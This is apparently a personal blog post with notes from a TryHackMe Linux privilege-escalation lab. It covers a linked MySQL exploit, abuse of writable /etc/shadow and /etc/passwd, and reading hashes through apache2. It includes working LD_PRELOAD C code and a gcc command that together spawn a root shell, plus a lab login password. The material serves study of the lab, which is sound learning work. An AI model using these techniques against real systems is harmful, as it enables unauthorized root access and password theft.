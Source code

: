 ```yaml
---
layout: post
title: LinuxPrivEsc oh THM
subtitle: Difficulty level - Medium
cover-img: /assets/img/linuxprivesc/cover.png
thumbnail-img: /assets/img/linuxprivesc/logo.jpeg
share-img: /assets/img/linuxprivesc/logo.jpeg
tags: [privesc, linux]
---
```


Blog Post for Linux privesc methods

SSH - user@<ip>
    password - password321

## Service Exploits  

Mysql exploit => https://www.exploit-db.com/exploits/1518 

Might have issue with /usr/lib/..plugin => https://www.root-me.org/?page=forum&id_thread=5072  

## Weak file permission  

1) Readable etc/shadow => cat it and then crack using john (rare occurance)   

2) Writeable etc/shadow => make new password and edit /etc/shadow

3) Writeable etc/passwd => use openssl to make a new passwd (openssl passwd newpass) and then paste in /etc/passwd after root:<here>: 

4) Shell escape seq => gtfobins :)
                        if apache2 can be run as sudo, use apache2 -f /etc/shadow to read starting lines of file, which contains the hash

5) Environment Variables => LD_PRELOAD loads shared object and LD_LIBRARY_PATH loads shared directories 

When using LD_PRELOAD this C code resets it and sets suid to 0,0,0 (root) and then spawns a shell  


```C

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);           //suid being set here also similar to what there was in cve-2021-4034 polkit pkexec
        system("/bin/bash -p");
}

```

Compiling command is  

```bash

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

``` 

And what it means [explainshell](https://explainshell.com/explain?cmd=gcc+-fPIC+-shared+-nostartfiles+-o+%2Ftmp%2Fpreload.so+%2Fhome%2Fuser%2Ftools%2Fsudo%2Fpreload.c)

**See what ldd command does** 

Shows shared files used by packages  

Had some issue with apache2 bad username try to fix it next time!